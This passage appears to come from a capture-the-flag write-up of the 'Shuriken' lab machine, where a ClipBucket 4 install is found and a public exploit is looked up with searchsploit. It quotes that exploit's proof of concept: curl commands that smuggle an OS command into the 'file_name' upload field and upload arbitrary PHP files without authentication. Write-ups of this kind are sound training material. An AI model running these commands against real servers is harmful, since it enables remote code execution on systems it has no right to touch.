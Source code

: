 ```
192.168.56.129	broadcast.shuriken.local
```

We can see it is running ClipBucket version 4

![](/assets/images/shuriken/s5.png)  

### ClipBucket Exploit:

Using searchsploit we find the following:

`ClipBucket < 4.0.0 - Release 4902 - Command I | php/webapps/44250.txt`

  

It is vulnerable to CMD Injection, File Upload, and SQLI

```
Proof of concept:
-----------------
1. Unauthenticated OS Command Injection
Without having to authenticate, an attacker can exploit this vulnerability
by manipulating the "file_name" parameter during the file upload in the script
/api/file_uploader.php:

 $ curl -F "Filedata=@pfile.jpg" -F "file_name=aa.php ||<<COMMAND HERE>>"
http://$HOST/api/file_uploader.php

2. Unauthenticated Arbitrary File Upload
Below is the cURL request to upload arbitrary files to the webserver with no
authentication required.

$ curl -F "file=@pfile.php" -F "plupload=1" -F "name=anyname.php"
"http://$HOST/actions/beats_uploader.php"

$ curl -F "file=@pfile.php" -F "plupload=1" -F "name=anyname.php"
"http://$HOST/actions/photo_uploader.php"

```
